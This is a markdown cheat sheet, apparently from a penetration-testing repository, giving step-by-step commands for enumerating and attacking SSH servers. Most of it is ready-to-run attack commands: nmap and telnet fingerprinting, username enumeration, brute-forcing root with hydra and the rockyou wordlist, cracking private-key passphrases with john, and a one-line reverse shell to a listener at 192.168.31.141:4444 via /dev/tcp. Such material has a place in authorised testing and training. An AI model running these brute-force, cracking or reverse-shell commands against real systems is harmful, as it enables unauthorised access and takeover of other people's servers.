

# SSH Enumeration & Exploitation Guide

##  Enumeration

### 1. Identify SSH Version

- **Using Banner Grabbing**
```bash
telnet <target-ip> 22
```

 Note: While port 22 is the default for SSH, some systems may use custom ports. Always perform a full port and service scan to discover hidden services.

- **Using Port Scanners**
```bash
naabu -host <target-ip>
```

- **Using Nmap**
```bash
nmap -sS -Pn -sV -A -p22 -vvv <target-ip>
```

**Note: Nmap results might show RSA host keys and other useful fingerprinting data.**


---

### 2. Enumerating SSH Features

- SSH performs a handshake to exchange keys, authenticate, and select encryption algorithms.

- **Enumerate Supported Algorithms**
```bash
nmap -p22 --script ssh2-enum-algos <target-ip>
```

Example output includes:

- `kex_algorithms`: diffie-hellman-group*, etc.
- `server_host_key_algorithms`: ssh-rsa, ssh-dss
- `encryption_algorithms`: aes128-cbc, 3des-cbc, etc.
- `mac_algorithms`: hmac-md5, hmac-sha1, etc.

- **Detect Authentication Mechanisms**
```bash
ssh -v username@<target-ip>
```

Useful to check if the username is valid — SSH often gives different output for valid vs invalid users.

---

## Exploitation

### 3. Key-Based Authentication

- **Generate SSH Keys**
```bash
ssh-keygen -t rsa -b 2048
```

- **Copy Public Key to Target**
```bash
ssh-copy-id user@<target-ip>
```

- **Exploit Misconfigured Permissions**
```bash
ssh -i id_rsa user@<target-ip>
```

---

### 4. Port Redirection / Local Forwarding

```bash
ssh -L 8080:127.0.0.1:8080 username@<target-ip>
```

Access remote services locally via port forwarding.

---

### 5. SSH Brute Force Attacks

- **Using Nmap**
```bash
nmap --script ssh-brute -p 22 <target-ip>
```

- **Using Hydra**
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://<target-ip>
```

---

### 6. Advanced Techniques

- **Crack SSH Private Key Passphrase**
```bash
ssh2john id_rsa > sshhash
john --wordlist=/usr/share/wordlists/rockyou.txt sshhash
```

- **Reverse Shell via SSH**
```bash
ssh user@<target-ip> 'bash -i >& /dev/tcp/192.168.31.141/4444 0>&1'
```

---

